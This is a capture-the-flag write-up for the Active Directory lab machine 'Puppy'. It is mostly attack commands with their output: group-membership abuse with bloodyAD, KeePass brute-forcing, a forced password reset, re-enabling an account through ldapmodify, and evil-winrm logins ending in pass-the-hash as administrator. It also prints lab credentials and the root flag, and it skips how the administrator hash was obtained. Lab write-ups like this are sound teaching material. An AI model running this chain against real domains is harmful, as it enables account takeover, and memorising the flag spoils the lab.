






```
Machine Information

As is common in real life pentests, you will start the Puppy box with credentials for the following account: levi.james / KingofAkron2025!
```

```
└─# nmap 10.10.11.70     

PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
111/tcp  open  rpcbind
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
2049/tcp open  nfs
3260/tcp open  iscsi
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
5985/tcp open  wsman
```


## USER_ACCESS

Running Bloodhound ... 

```
└─# bloodhound-python  --username levi.james --password 'KingofAkron2025!' --domain puppy.htb --domain-controller DC.PUPPY.HTB --nameserver 10.10.11.70 --collectionmethod All --zip
```




Cool ! levi.james's member --> HR --> [GenericWrite](https://bloodhound.specterops.io/resources/edges/generic-write) --> Developers  


```
With GenericWrite over a group, add yourself or another principal you control to the group. See the abuse info under the AddMembers edge for more information.
```


So, Adding levi.james to Developers Group, we can acess the DEV share , where we found a database file.


```
└─# bloodyAD --host 10.10.11.70 -d puppy.htb -u levi.james -p 'KingofAkron2025!' add groupMember DEVELOPERS levi.james
[+] levi.james added to DEVELOPERS
```




Lets Crack the master-key and see what's inside the file ; to crack we using [keepass4brute](https://github.com/r3nt0n/keepass4brute) 

```
└─# bash keepass4brute.sh recovery.kdbx /usr/share/wordlists/rockyou.txt

[*] Password found: liverpool
```



Cool ! Out of others , the user ant.edwards is interesting and got some privileges ; 





ant.edwards --> [GenericAll](https://bloodhound.specterops.io/resources/edges/generic-all) --> adam.silver --> PSRemote

```
└─# bloodyAD --host 10.10.11.70 -d puppy.htb -u ant.edwards -p 'Antman2025!' set password adam.silver 'P@ssw0rd2025!'
[+] Password changed successfully!
```



Now, As we changed the password of adam.silver  ; But the account has been disabled , so we gotta enable the account.

```
ldapsearch -x -H ldap://10.10.11.70 -D "ANT.EDWARDS@PUPPY.HTB" -W -b "DC=puppy,DC=htb" "(sAMAccountName=ADAM.SILVER)"

name: Adam D. Silver
objectGUID:: 6XTdGwRTsk6ta8cxNx8K6w==
userAccountControl: 66050 [Disabled]

[ UAC : 66050 -> Disabled Account ; So we gotta modify the UAC to 66048 ]


name: Anthony J. Edwards
objectGUID:: x6FSB985RE+hYLmXqzCKaQ==
userAccountControl: 66048 [Enabled]
```

And we can modify the attributes via ldapmodify ! --> Because We got GenericAll to the user. 

```
└─# ldapmodify -x -H ldap://10.10.11.70 -D "ANT.EDWARDS@PUPPY.HTB" -W << EOF                                              
dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
changetype: modify
replace: userAccountControl
userAccountControl: 66048
EOF
Enter LDAP Password: 

modifying entry "CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB"
```

Login' with winrm !!

```
└─# evil-winrm -i 10.10.11.70 -u adam.silver -p 'P@ssw0rd2025!'
```


## PRIVILEGE_ESCALATE


```
└─# evil-winrm -i 10.10.11.70 -u administrator -H bb0edc15e49ceb4120c7bd7e6e65d75b

*Evil-WinRM* PS C:\Users\Administrator\DEsktop> cat root.txt
b48863b2179a7f01d2e526e4e908f0b4

```